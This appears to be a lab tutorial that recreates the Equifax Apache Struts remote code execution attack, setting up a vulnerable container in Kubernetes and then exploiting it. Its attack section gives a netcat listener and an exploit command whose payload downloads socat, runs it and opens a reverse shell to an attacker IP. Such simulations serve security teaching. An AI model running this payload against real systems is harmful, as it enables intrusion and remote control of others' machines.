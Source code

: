 ========================
Struts Attack - Equifax
========================

The goal of this article is to simulate the Equifax attack which was carried out exploiting Apache Struts vulnerability.

Apache Struts is an open-source framework used to build Java web applications. The vulnerability is a remote code execution bug that affects the Jakarta Multipart parser.

In this attack, the front end is exploited and a reverse shell is created in the machine where struts is running. The adversary can exploit that machine - escalate privileges, spawn and terminate processes, move laterally, and get to the crown jewels.

There are 2 parts to this setup

1) Setup a container running vulnerable Apache struts in Kubernetes
2) Attack the container, exploit the vulnerability and establish a command and control

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutssetup.png
 :width: 650
 :alt: ssrf setup


Running the Vulnerable container in Kubernetes
==============================================

**Container:** 

We have already created a container with a vulnerable Apache Struts app and its present at - quay.io/araalinetworks/struts:latest

Download the deployment yaml file - deployment.yaml

Apply this file in your Kubernetes cluster in a specific namespace

.. code-block:: RST

    $ kubectl create ns strutfrontend
    $ kubectl apply -f deployment.yaml -n strutfrontend

Check (1) if the pods are running, and (2) get the External IP of the exposed service

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutskubectlgetpodsvc.png
 :width: 650
 :alt: kubectl get pods

Now open a browser and check if the app is up and running, by logging into the external IP on port 8080
http://40.88.254.51:8080/super-app/orders/3

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutsfrontend.png
 :width: 650
 :alt: frond end of the app

If you see the screen above, Congratulations! we have completed the first part.


Setup a VM to attack the container
==================================

Make sure **python 3.6** is installed on the VM.

Download the python file **attack42627.py** to your attack VM.

Executing the attack
********************


Now open two terminals, on one terminal type 

.. code-block:: RST
    
   $ sudo nc -nvlp 12345

On the other terminal type

.. code-block:: XML

   $ python3 strutattack/attack42627.py http://40.88.254.51:8080/super-app/orders/3 'wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:"ash -li",pty,stderr,setsid,sigint,sane tcp:104.41.3.199:12345'    


Here, 40.88.254.51 is the IP of the struts app.

and 104.41.3.199:12345 is the IP of the machine from which you are carrying out the attack.
